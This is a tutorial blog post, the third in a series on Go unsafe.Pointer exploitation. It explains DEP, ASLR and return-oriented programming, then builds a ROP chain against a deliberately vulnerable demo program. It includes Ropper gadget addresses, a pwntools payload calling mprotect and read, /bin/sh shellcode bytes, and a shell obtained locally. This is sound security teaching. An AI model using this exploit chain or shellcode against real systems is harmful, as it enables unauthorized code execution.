

# Exploitation Exercise with Go unsafe.Pointer: ROP and Spawning a Shell (Part 3)

In this third part, we will see how to take the idea of code flow redirection one step further. We will do an arbitrary
remote code execution using the Return Oriented Programming (ROP) technique. In the end, we will reach the classic goal
for binary exploitation and run a shell in the program context.


## Parts:

 1. [Information leakage](unsafe-vulnerabilities-1-information-leakage.md)
 2. [Code flow redirection](unsafe-vulnerabilities-2-code-flow-redirection.md)
 3. ROP and spawning a shell (enjoy!)
 4. [SliceHeader literals](unsafe-vulnerabilities-4-sliceheader-literal.md)


## Executing code on the stack

Following the last part of the series, you might have thought: what if we pipe actual machine instructions into the
program, and then use the address of this machine code on the stack (inside the buffer receiving the input data) instead
of the address of the `win` function. This way, we could execute arbitrary code of our choice, including just spawning
a shell and thus having a universal interface to run more code.

Indeed, this was possible not too much time ago. One would send the padding necessary to fill up the input buffer and
stack up to the stored return pointer, then an address a bit later in the stack, and then the machine code needed to
start a shell. If the padding was long enough, it would also be possible to put the code into the padding, reducing the
overall input data size.

Because the stack is always a bit unpredictable (for example, environment variables might get pushed onto the stack and
they could be different on each program run), the exact address of the shell code could vary slightly. And if we would
miss it by even a byte, the code would become corrupted and stop working.

To mitigate this, we could send a lot of `NOP` instructions (opcode `0x90` [2](#references)) between the address and the shell code, and
then try to jump into the middle of those instructions. This way, we don't have to hit the exact correct byte, instead
the exploit also works if we jump to an address that is a few bytes before or after. This is because all possible
target addresses (within some range) would be `NOP` instructions, and the CPU would just follow along all `NOP`
instructions until it reaches the shell code and executes it. This technique is called the nop slide [3](#references), because the CPU in 
a way slides down a slope of NOPs.

The payload that we would inject could look like this:

 


## DEP and ASLR: mitigations against buffer overflows

Unfortunately, these days it isn't quite that easy anymore. Operating system developers have done a lot of work to 
implement countermeasures against this simple code-on-the-stack exploit.

Data Execution Prevention is a technique which assigns different permissions to the memory pages used by a program. There
are pages that can only be read (like literals and constants), pages that can be read and executed (like the program
instructions itself) and pages that can be written (e.g. the stack or heap). But the pages that can be written to can
not be executed! Different names for this are R^W (read xor write) or NX (Non-eXecutable memory). This technique has been in
use by all major operating systems for years, and it effectively prevents us from writing our code onto the stack and
then executing it.

Another mitigation is Address Space Layout Randomization (ASLR) [1](#references), which randomizes the addresses of dynamically linked
libraries, or maybe even functions inside the binary itself, when loading it into the RAM. This way, we can not use GDB
to analyze the binary locally and determine addresses where we might jump to, because on the exploit target (possibly
remote) the addresses would be completely different.

Fortunately for this proof of concept, Go does not really use ASLR. The binaries produced by the Go compiler have
deterministic addresses, and at least this small program gets statically linked so there are no dynamic libraries that
could be loaded at different addresses. We can see this by running some analysis on the binary file:

```shell script
$ readelf -l main

Elf file type is EXEC (Executable file)
Entry point 0x45d310
There are 7 program headers, starting at offset 64

Program Headers:
  Type           Offset             VirtAddr           PhysAddr
                 FileSiz            MemSiz              Flags  Align
  PHDR           0x0000000000000040 0x0000000000400040 0x0000000000400040
                 0x0000000000000188 0x0000000000000188  R      0x1000
  NOTE           0x0000000000000f9c 0x0000000000400f9c 0x0000000000400f9c
                 0x0000000000000064 0x0000000000000064  R      0x4
  LOAD           0x0000000000000000 0x0000000000400000 0x0000000000400000
                 0x00000000000926ad 0x00000000000926ad  R E    0x1000
  LOAD           0x0000000000093000 0x0000000000493000 0x0000000000493000
                 0x00000000000bd151 0x00000000000bd151  R      0x1000
  LOAD           0x0000000000151000 0x0000000000551000 0x0000000000551000
                 0x0000000000015240 0x00000000000414c8  RW     0x1000
  GNU_STACK      0x0000000000000000 0x0000000000000000 0x0000000000000000
                 0x0000000000000000 0x0000000000000000  RW     0x8
  LOOS+0x5041580 0x0000000000000000 0x0000000000000000 0x0000000000000000
                 0x0000000000000000 0x0000000000000000         0x8

 Section to Segment mapping:
  Segment Sections...
   00     
   01     .note.go.buildid 
   02     .text .note.go.buildid 
   03     .rodata .typelink .itablink .gosymtab .gopclntab 
   04     .go.buildinfo .noptrdata .data .bss .noptrbss 
   05     
   06

$ ldd main       
the program is not dynamically linked
``` 


## Return2libc

But wait - didn't we in fact execute code in the last part of the series? Yes, we did! But it was code that was already
contained in the binary. We executed the `win` function that was compiled into the binary. This means that we didn't
jump to code that was on the stack (an RW-page), but instead we jumped into the `.text` segment of the program where all
the other machine instructions live, too (an RX-page).

By reusing code that is already in the binary, we can defeat Data Execution Prevention.

A generalization of this technique is called return2libc, where we would now jump to a function contained in the huge
C standard library libc. We could e.g. use the `system` function that allows us to execute arbitrary commands. However,
as mentioned before the binary produced by the Go compiler is statically linked, and it doesn't link against the libc
C library. Thus, we cannot use return2libc. And even if it were linked against libc, ASLR would do a decent job at
making it very hard to find out the correct addresses of libc functions.


## Return oriented programming

We need a different approach: Return Oriented Programming (ROP). With ROP, we try to jump into code that is contained
in the binary just as with return2libc, but we jump to a location that contains preferably only one or at most a few 
machine instructions and a return instruction.

Recall that the return instruction `ret` actually is a simple `pop $rip`. This means that if we execute `ret`, and then
another `ret`, we will simply fetch the next processor word from the stack and jump to that address. Now, this enables
us to chain together small pieces of code by putting the addresses of these code snippets on the stack, one after
another. The important requirements for this are that the code snippets end with a `ret` instruction, and do not modify
the stack pointer `$rsp`, because modifying the stack pointer would destroy our chain of code snippets. Using these
snippets, we can craft a program almost like manually coding in assembly, but with only a limited set of assembly
instructions available (the ones we find in the binary).

With these code snippets, we can do arbitrary stuff, including calling syscalls. Syscalls give us the power to e.g.
read data into a buffer, or change the execution permissions of memory pages used by the program.

To find suitable code snippets, we can either manually decompile the complete binary (very tedious), or use a helper
tool like ROPgadget or Ropper. I used Ropper here:



We analyze the short Go program known from the last part:

```go
// initialize the reader outside of the main function to simplify POC development, as there are less local variables
// on the stack.
var reader = bufio.NewReader(os.Stdin)

func main() {
    // this is a harmless buffer, containing some harmless data
    harmlessData := [8]byte{'A', 'A', 'A', 'A', 'A', 'A', 'A', 'A'}
    
    // create a slice of length 512 byte, but assign the address of the harmless data as its buffer.
    // use the reflect.SliceHeader to change the slice
    confusedSlice := make([]byte, 512)
    sliceHeader := (*reflect.SliceHeader)(unsafe.Pointer(&confusedSlice))
    harmlessDataAddress := uintptr(unsafe.Pointer(&(harmlessData[0])))
    sliceHeader.Data = harmlessDataAddress
    
    // now read into the confused slice from STDIN. This is not quite as bad as a gets() call in C, but almost. The
    // function will read up to 512 byte, but the underlying buffer is only 8 bytes. This function is the complete
    // vulnerability, nothing else needed
    _, _ = reader.Read(confusedSlice)
}
```

The following command shows quite a lot of ROP gadgets (snippets) that are contained in our binary:

```shell script
ropper --file main --search "%"
0x000000000041996b: adc al, 0; ret; 
0x000000000042dee5: adc al, 0x1f; mov dword ptr [rsp + 0x28], edx; mov qword ptr [rsp + 0x30], rax; mov rbp, qword ptr [rsp + 0x10]; add rsp, 0x18; ret; 
0x000000000042da80: adc al, 0x24; call 0x2d660; mov rbp, qword ptr [rsp + 0x40]; add rsp, 0x48; ret; 
0x000000000044ba26: adc al, 0x24; call 0x4b190; mov rbp, qword ptr [rsp + 0x10]; add rsp, 0x18; ret; 
0x000000000046c199: adc al, 0x24; call 0x6bec0; mov rbp, qword ptr [rsp + 0x10]; add rsp, 0x18; ret; 
0x000000000046bffa: adc al, 0x24; call 0x6bec0; mov rbp, qword ptr [rsp + 0x28]; add rsp, 0x30; ret; 
0x00000000004614fa: adc al, 0x24; call rcx; 
[...]
```

Ropper even provides some automated search tools, but in this specific case they couldn't automatically find a complete
exploit chain, so I had to dig in using my own hands.


## POC: Spawning a shell

Putting the ROP techniques from above into play, the plan looks like this:

 1. Set the executable and writable flags for a memory page belonging to the program
 2. Write some code that spawns a shell into the page
 3. Jump to that code
 
The following steps are based on the excellent blog articles [[4, 5, 6]](#references). Give them a read for even more details on ROP
chains and exploit development.
 
 
**Step 1: Get a memory page with RWX permissions**

To do this, we use the `mprotect` syscall. Its man page explains the usage:

```c
int mprotect(void *addr, size_t len, int prot);

mprotect() changes the access protections for the calling process's memory pages containing any part of the address 
range in the interval [addr, addr+len-1]. addr must be aligned to a page boundary.
```

This means we need to provide the address of the region we want to change, the desired size, and the permission to set.
These permissions work similar to file system permissions, so the integer value 7 means RWX.

I use the Python Exploit Development Assistance (PEDA) for GDB. Follow the instructions on the 
[PEDA project page](https://github.com/longld/peda) to install it.

With it, we can use the `vmmap` command in GDB PEDA to find a suitable memory page:

```gdb
gdb-peda$ vmmap
Start              End                Perm	Name
0x00400000         0x00493000         r-xp	main
0x00493000         0x00551000         r--p	main
0x00551000         0x00567000         rw-p	main
0x00567000         0x00593000         rw-p	[heap]
[...]
```

The first (r-x) page is the one containing the code. I choose the third page, starting at `0x00551000`. It already has
the RW permissions, but we need to add X to make it executable. We can choose `0x100` (256 bytes) as size as this will
be more than enough space for the shell code.

How do syscalls work? The general idea is to execute the `syscall` instruction. Before that, we need to put the syscall
number into `$rax`, and set up the arguments to the function. The [Linux x86_64 syscall table](https://github.com/torvalds/linux/blob/master/arch/x86/entry/syscalls/syscall_64.tbl)
shows that the `mprotect` syscall has number 10 (`0xa`).

We set up the parameters according to the `x86_64` calling convention: the first parameters get passed in registers `$rdi`,
`$rsi`, `$rdx`, `$rxc`, `$r8`, `$r9`, the remaining ones through the stack. The return value is passed back in `$rax`. This means
that we will need to set up the following situation when executing the `syscall` instruction:

 - `$rax`: 0xa
 - `$rdi`: 0x00551000
 - `$rsi`: 0x100
 - `$rdx`: 0x7
 
For this, we now need to find some suitable gadgets in the huge output of Ropper. First, let's try to set `$rax` to 10.
There is probably no `mov rax, 10`, so instead what could be useful is a `mov rax, 0` / `sub rax, rax` / `xor rax, rax`
to set `$rax` to zero, and then `add rax, 1` to slowly increase it up to 10.

I could find a `mov eax, 0; ret;` gadget at address `0x000000000045b900` and debugging in GDB showed that this is indeed
enough to set the whole `$rax` to zero (`$eax` is the lower 32 bit of the 64 bit register `$rax`). Then, combining it with the
`add rax, 2; mov dword ptr [rip + 0x14d61f], eax; ret;` gadget applied 5 times we can increment `$rax` to 10. The gadget
will also move the `$eax` value to some address in memory but we can just ignore that.

For `$rdx` and `$rsi`, we can go the easy way and just pop them from the stack, meaning we just put the pop gadget and the
value directly behind it. Very convenient. The gadgets look like this: `pop rdx; adc al, 0xf6; ret;`. They also
increment `$rax` through the `adc` instruction, but if we set up `$rdx` and `$rsi` before setting up `$rax` this is not a
problem because we initialize it to zero anyways.

For setting `$rdx`, I also found `pop rdx; xor ah, byte ptr [rsi - 9]; ret;`. We could apply it twice to change back the
`xor` operation on `$rax`, but this gadget reads from an address determined through `$rsi` which will segfault in this 
context.

The hardest is finding a gadget to set `$rdi`. There is `pop rdi; sete byte ptr [rsp + 0x10]; ret;`, but this will set
a memory address near the stack pointer with the second instruction and thus mess up the ROP chain. The only other good
gadget option is `pop rdi; dec dword ptr [rax + 0x21]; ret;`,  but this decrements a memory address determined by `$rax`.
In theory, we don't need to care about this address, but in my experiments the address would always be invalid and
thus crash the program too early.

I found a solution using the `pop rax; or dh, dh; ret;` gadget. It allows to set `$rax` directly and therefore also makes
the above `$rax` increment workaround unnecessary. I leave it in anyways. The important part is, we can now set `$rax` to
some dummy address before executing the `pop rdi` gadget, and then the program does not crash. I use the address of the
fourth memory page from above, the heap, for this: `0x00567000`.

Finally, we need the `syscall` instruction itself. Fortunately, this is straightforward as there is a `syscall; ret;` 
gadget.

Now we can put together the gadget addresses and values. Before them, we put the same padding to offset to the stored
return address on the stack. I use the Python pwntools to have some more convenient functions in the exploit script.

```python
eax0 = 0x000000000045b900 # mov eax, 0; ret;
inc2rax = 0x0000000000419963 # add rax, 2; mov dword ptr [rip + 0x14d61f], eax; ret;
poprdx = 0x000000000040830c # pop rdx; adc al, 0xf6; ret;
poprsi = 0x0000000000415574 # pop rsi; adc al, 0xf6; ret;
syscall = 0x000000000045d329 # syscall; ret;
poprax = 0x000000000040deac # pop rax; or dh, dh; ret;
poprdi = 0x000000000040eb97 # pop rdi; dec dword ptr [rax + 0x21]; ret;

# addresses
buf = 0x00551000 # use vmmap in GDB to find it
dummy = 0x00567000 # heap

# padding
payload = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNN"

# mark memory page at buf rwx
payload += p64(poprax) # sete in poprdi mitigation
payload += p64(dummy)
payload += p64(poprdi) # 1ST ARGUMENT
payload += p64(buf) # ADDRESS
payload += p64(poprsi) # 2ND ARGUMENT
payload += p64(0x100) # SIZE
payload += p64(poprdx) # 3RD ARGUMENT
payload += p64(0x7) # RWX
payload += p64(eax0) # SET RAX = 0
payload += p64(inc2rax) * 5 # SET RAX = 10
payload += p64(syscall) # SYSCALL
```

Executing the program with this input will mark the memory page with RWX permissions. We can verify this in GDB using
the `vmmap` command:

```gdb
gdb-peda$ vmmap
Start              End                Perm	Name
[...]
0x00551000         0x00567000         rwxp	main
[...]
```


**Step 2: Write shell code into the page**

To read in the shell code, we use the `read` syscall. Its documentation states the following:

```c
ssize_t read(int fd, void *buf, size_t count);

read() attempts to read up to count bytes from file descriptor fd into the buffer starting at buf.
```

We can use the same technique to spawn the syscall as above. The syscall table shows that this time we need to call
the syscall with number 0. The file descriptor for standard input also has the number 0. Thus, we need to create the 
following register situation:

 - `$rax`: 0x0
 - `$rdi`: 0x0
 - `$rsi`: 0x00551000
 - `$rdx`: 0x100
 
Conveniently, we already have the ROP gadgets needed and only need to rearrange:

```python
payload += p64(poprax) # sete in poprdi mitigation
payload += p64(dummy)
payload += p64(poprdi) # 1ST ARGUMENT
payload += p64(0x0) # STDIN
payload += p64(poprsi) # 2ND ARGUMENT
payload += p64(buf) # ADDRESS
payload += p64(poprdx) # 3RD ARGUMENT
payload += p64(0x100) # SIZE
payload += p64(eax0) # SET RAX = 0
payload += p64(syscall) # SYSCALL

```

Now, we have to provide some code that actually spawns a shell. This 27 bytes assembly program will spawn `/bin/sh`. It
is taken from [shell-storm.org](http://shell-storm.org/shellcode/files/shellcode-806.php).

```python
# http://shell-storm.org/shellcode/files/shellcode-806.php
shellcode = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
```

We send it right after the payload in the resulting python script.


**Step 3: Jump to the code**

Running the code we just read in is as simple as jumping to it. And jumping to it means we only have to provide its
address as the next return address:

```python
payload += p64(buf)
```

If we run the final exploit, we get the following output:

```shell script
johannes@host-pc ~ $ ./exploit_rop.py        
[+] Starting local process './main': pid 75369
[*] Switching to interactive mode
$ id
uid=1000(johannes) gid=1000(johannes) groups=1000(johannes),54(lock),1001(plugdev)
$  
```

We have successfully spawned and control a shell. It runs in the same context as the program did, that is the user
context here. In a next step, we could try to run a local root exploit to escalate privileges.


## Complete POC exploit code

You can read the full POC exploit code in the Github repository that I created for this post series:




## References

 - [1] Cook, Kees. "Kernel address space layout randomization." Linux Security Summit (2013). https://outflux.net/slides/2013/lss/kaslr.pdf
 - [2] https://cs.brown.edu/courses/cs033/docs/guides/x64_cheatsheet.pdf
 - [3] https://en.wikipedia.org/wiki/NOP_slide
 - [4] Basic buffer overflow on 64-bit architecture
   https://medium.com/@buff3r/basic-buffer-overflow-on-64-bit-architecture-3fb74bab3558
 - [5] A Simple ROP Exploit – /bin/sh via syscall 
   https://failingsilently.wordpress.com/2017/12/14/rop-chain-shell/
 - [6] 64-bit ROP | You rule ‘em all!
   https://0x00sec.org/t/64-bit-rop-you-rule-em-all/1937


Next week we are going to continue with part 4: The dangers of directly creating `reflect.SliceHeader` literals